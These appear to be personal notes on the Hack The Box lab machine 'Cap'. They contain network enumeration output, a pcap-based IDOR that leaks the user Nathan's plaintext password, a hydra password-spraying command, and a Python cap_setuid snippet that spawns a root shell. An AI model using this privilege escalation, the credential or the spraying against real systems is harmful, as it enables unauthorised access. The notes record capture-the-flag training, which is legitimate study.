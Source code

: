 # Cap Notes

## Data 

IP: 10.129.198.137
OS: Ubuntu
Hostname:
Domain:  / Domain SID:
Machine Purpose: 
Services: 
- SSH-2.0-OpenSSH_8.2p1 Ubuntu-4ubuntu0.2
- https://github.com/benoitc/gunicorn
- https://colorlib.com/wp/themes/ 
Service Languages:
Users: Nathan
Credentials:

## Objectives

## Target Map

![](Cap-map.excalidraw.md)

## Solution Inventory Map


`ifconfig` - cmd
```
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.129.198.137  netmask 255.255.0.0  broadcast 10.129.255.255
        inet6 fe80::250:56ff:fe96:37af  prefixlen 64  scopeid 0x20<link>
        inet6 dead:beef::250:56ff:fe96:37af  prefixlen 64  scopeid 0x0<global>
        ether 00:50:56:96:37:af  txqueuelen 1000  (Ethernet)
        RX packets 5345  bytes 414573 (414.5 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 1908  bytes 889982 (889.9 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 3701  bytes 291201 (291.2 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 3701  bytes 291201 (291.2 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

netstat shows connections that were present at time of configuration - NOT Modified
```c
Proto Recv-Q Send-Q Local Address           Foreign Address         State       User       Inode      PID/Program name     Timer
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      101        34329      -                    off (0.00/0/0)
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      0          37158      -                    off (0.00/0/0)
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      1001       36211      -                    off (0.00/0/0)
tcp        0      1 10.129.198.137:33164    8.8.8.8:53              SYN_SENT    101        43719      -                    on (7.76/3/0)
tcp        0      0 10.129.198.137:80       10.10.14.40:60706       ESTABLISHED 1001       43720      -                    off (0.00/0/0)
tcp6       0      0 :::21                   :::*                    LISTEN      0          36883      -                    off (0.00/0/0)
tcp6       0      0 :::22                   :::*                    LISTEN      0          37160      -                    off (0.00/0/0)
udp        0      0 127.0.0.1:56867         127.0.0.53:53           ESTABLISHED 102        43718      -                    off (0.00/0/0)
udp        0      0 127.0.0.53:53           0.0.0.0:*                           101        34328      -                    off (0.00/0/0)
udp        0      0 0.0.0.0:68              0.0.0.0:*                           0          32598      -                    off (0.00/0/0)

...
lots of :
...
tcp        0      0 10.129.198.137:80       10.10.14.40:58344       TIME_WAIT   0          0          -
tcp6       0      0 10.129.198.137:21       10.10.14.40:36472       ESTABLISHED 0          85986      -


```

http://osr600doc.sco.com/en/man/html.ADMN/dhcpc.ADMN.html /UDP 68 is running as root, but the pcap is no referencing any UDP connections

#### 1.PCAP

10.10.14.40 
gunicorn

- Try interact with website with wireshark open to TSVal, TSecr
[How TCP Works - Chris Greer](https://www.youtube.com/watch?v=4EFEdAyxemk)
- TCP does not know architecture
Timestamps option can reduce retransmission timer 
SACK_PERM TSVal, TSecr - Timestamp Value and Timestamp Echo Reply - do not confused with [[Wireshark]] Timestamping
- Some increment by the miliseconds or network latency

NOT Modified
https://developer.mozilla.org/en-US/docs/Web/HTTP/Status/304
Everything it loads a page for this user the server runs through every js and ccs file indictated by the packet length



#### WP?

https://colorlib.com/wp/themes/ - but cant find wp directory and wpscan report nowordpress
https://wpscan.com/plugin/owl-carousel - is for wordpress
#### Screenshots

webroot.png
moreusers.png
freepcap.png
ifconfigforfree.png
intriguingports.png
tsvalandtsecr.png
alotofnotmodified.png
nolfiondownload.png
404whereiswp.png
resolvinghowdataisthere.png
feroxbusterwherewp.png
noinjections.png

realised there are three pcaps then IDORed to 0th...
nomoresighs.png


bucketheadpassword.png
Start playing [Soothsayer - Buckethead](https://www.youtube.com/watch?v=adV8-_hgL4ghttps://www.youtube.com/watch?v=adV8-_hgL4g), but then remembered killswitch mod and the hack sounding [Jordan](https://www.youtube.com/watch?v=Y-NjZp7Aurg) 

`nathan : Buck3tH4TF0RM3!`

wearenathan.png

```bash
Linux cap 5.4.0-80-generic #90-Ubuntu SMP Fri Jul 9 22:49:44 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
# /nathan/snap contains: 
lxd 
# But linpeas or 
getcap -r / 2>/dev/null
# 
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip


# root can ssh

/usr/lib/snapd/snap-confine  --->  Ubuntu_snapd<2.37_dirty_sock_Local_Privilege_Escalation(CVE-2019-7304)

handlers.py 
```

[Hacktricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-capabilities#cap_setuid)
```python
import os
os.setuid(0)
os.system("/bin/bash")
```



root.png

### Todo 

### Done

Password sprayed ftp with `hydra -l nathan darknet-2017-top1000.txt` no success


```bash
cat webroot.html |  grep email | sed 's/<h4>//g' | uniq | grep -v '<p>\|<h5>' | awk '{print $1}' > users.txt
echo "Ratul Hamba" >> fullname-users.txt
echo "Kaji Patha" >> fullname-users.txt
echo "Nathan" >> users.txt
echo "Kaji" >> users.txt
```

